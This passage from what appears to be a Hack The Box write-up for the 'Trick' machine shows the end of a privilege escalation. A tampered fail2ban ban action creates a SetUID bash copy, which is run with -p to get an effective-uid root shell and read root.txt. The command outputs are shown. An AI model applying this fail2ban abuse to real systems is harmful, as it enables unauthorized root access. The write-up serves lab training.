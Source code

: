 
I’ll notice that this time I don’t get blocked. That’s because even when the
`actionban` runs, it doesn’t block my IP in `iptables`, but rather creates a
SetUID `bash`. That file exists:

    
    
    michael@trick:/etc/fail2ban$ ls -l /tmp/0xdf
    -rwsrwxrwx 1 root root 1168776 Oct 15 18:17 /tmp/0xdf
    

To trigger this, I’ll need to run it with `-p` (see [this
video](https://www.youtube.com/watch?v=XvfpOIAMx6Y) for details on uid vs euid
and why I need `-p` for `bash`). That gives a shell (with effective uid) as
root:

    
    
    michael@trick:/etc/fail2ban$ /tmp/0xdf -p
    0xdf-5.0# id
    uid=1001(michael) gid=1001(michael) euid=0(root) groups=1001(michael),1002(security)
    

And from there I can read `root.txt`:

    
    
    0xdf-5.0# cat /root/root.txt
    3c3ef61f************************
    

[](/2022/10/29/htb-trick.html)

